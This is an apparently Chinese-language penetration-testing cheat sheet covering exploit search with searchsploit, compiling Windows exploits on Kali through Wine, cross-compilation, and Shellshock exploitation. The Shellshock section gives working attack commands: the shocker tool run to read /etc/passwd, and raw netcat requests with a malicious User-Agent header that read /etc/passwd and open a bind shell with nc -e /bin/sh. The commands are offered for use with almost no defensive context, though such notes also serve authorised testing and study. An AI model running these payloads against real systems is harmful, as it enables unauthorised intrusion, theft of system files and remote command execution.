 ### 搜索EXP

安装exploit-db的本地备份:

```
 searchsploit –u
 searchsploit apache 2.2
 searchsploit "Linux Kernel"
 searchsploit linux 2.6 | grep -i ubuntu | grep local
```

### 在Kali上编译WIndows的exp

```
wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe  
```

### 交叉编译Exploits

```
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
```

### 利用通用漏洞

#### 利用Shellshock漏洞

一个用来寻找和利用Shellshock漏洞的攻击

```
git clone https://github.com/nccgroup/shocker
```

```
./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
```

##### cat file (查看文件内容)

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

##### Shell Shock 运行bind shell

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```
